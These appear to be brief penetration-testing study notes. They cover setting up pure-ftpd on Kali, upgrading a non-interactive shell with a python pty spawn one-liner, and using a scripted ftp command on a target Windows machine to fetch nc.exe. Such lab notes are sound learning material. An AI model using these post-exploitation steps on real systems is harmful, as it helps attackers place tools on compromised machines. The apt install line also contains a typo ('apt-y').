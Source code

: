 do not install new tool, use native tools

# pure-ftpd
//install on kali
sudo apt update && sudo apt-y install pure-ftpd

# non-interactive shells
lack job control, su support, etc. or any feedback on what we are doing

* ``ls`` command not interactive
* ``ftp`` is an interactive program (requires user interaction to complete)
* go get interactive shell:
``python -c "import pty;pty.spawn('/bin/bash')"``

# windows 
## transfering netcat.exe
* in our kali place this binary: ``sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/``
* restart ftp: ``sudo systemctl restart pure-ftpd``
* on target windows system: transfer file of *ftp.txt* by typing: ``ftp -v -n -s:ftp.txt`` should be the kali ip, *kali* is the ftp pw in this file
